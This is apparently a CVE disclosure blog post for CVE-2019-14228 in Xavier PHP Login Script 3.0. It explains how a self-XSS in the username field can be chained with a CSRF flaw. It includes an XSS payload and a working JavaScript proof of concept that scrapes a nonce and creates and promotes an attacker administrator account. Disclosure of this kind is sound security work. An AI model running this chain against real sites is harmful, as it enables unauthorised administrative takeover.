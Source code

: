 ```yaml
---
layout: post
title: CVE-2019-14228 
tags: [CVE-Writeup, XSS, CSRF, Chain]
author: Ingredous Labs
comment: true
---
```


```
Affected Software Name: Xavier PHP Login Script & Management Panel
Affected Version: 3.0
Vulnerability: Application Takeover via Self-XSS + CSRF Chain
CVE ID: CVE-2019-14228
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
```

# Introduction

Xavier 3.0 PHP Login Script & Management Panel is developed by Angry Frog and could be purchased by clicking [here](https://www.angry-frog.com/php-login-script/).

As stated on their website:

> The Xavier PHP Login Script is a user management system allowing the registration and administration of users to your website. 

# Exploitation Details

Xavier PHP Login Script allows Administrators to create new users by using the Management Panel. During a blackbox assessment, it was observed that causing the registration to fail such as using a password which doesn't meet the complexity policy would cause the application to reflect the username in the error message.

Attempting to register a username which contains Javascript such as `<img src=/ onerror=alert(1)>`, would cause the Javascript to be evaluated and executed by the browser as no sanitization is being performed thhus resulting in XSS (Cross-Site-Scripting.)

Unfortunately the impact here is completely mitigated as this would be a case of Self-XSS as the attacker would be required to either social engineer the Victim Administrator into inputting this payload along with causing the form to error.

However upon further observation, it was noticed that the endpoint which is responsible for creating a new user was missing CSRF protection. As seen in the request, there is no CSRF protection in the form of a token being passed along in the request nor was the application utilizing Same-Site Cookies.

With this, an Attacker is able to craft a proof of concept and host it on their website which upon being visited by the Victim Admin will have the browser follow the request and thus create a new user. However one caveat lies here and that is when a new user is created, they are automatically placed into the "Registered Users" aka the lowest privilege group. Long story short, an attacker would be able to achieve the same impact by using the self-registration feature and registering their own account. 

In order to upgrade a user's privileges, an Admin will need to browse to the Management Panel and promote the user. The endpoint which is responsible for promoting the user utilizes CSRF protection thus making it impossible to promote the Attacker's user to Admin via the same vector (CSRF).

One last piece remains and that is the Self-XSS. With the CSRF an attacker is able to leverage the Self-XSS into being remotely exploitable in the form of Reflected XSS. As an attacker is able to execute Javascript in the context of the Victim's browser, they are now able to bypass the Same Origin Policy (SOP) which therefore would allow the attacker to bypass the CSRF protection found on the endpoint which is responsible for promoting a user's privileges by including specially crafted Javascript found in the Proof of Concept section below. 

Upon the Javascript being executed in the context of the Victim Admin's browser, it will create a new account for the attacker and promote it to Administrator which is the highest privilege offered by the application thus allowing the attacker to effectively takeover the application by chaining together Self-XSS + CSRF. 


# Proof of Concept

~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Upon this being executed, a new Administrator with the username of Hackerman and password of P4ssw0rd will created.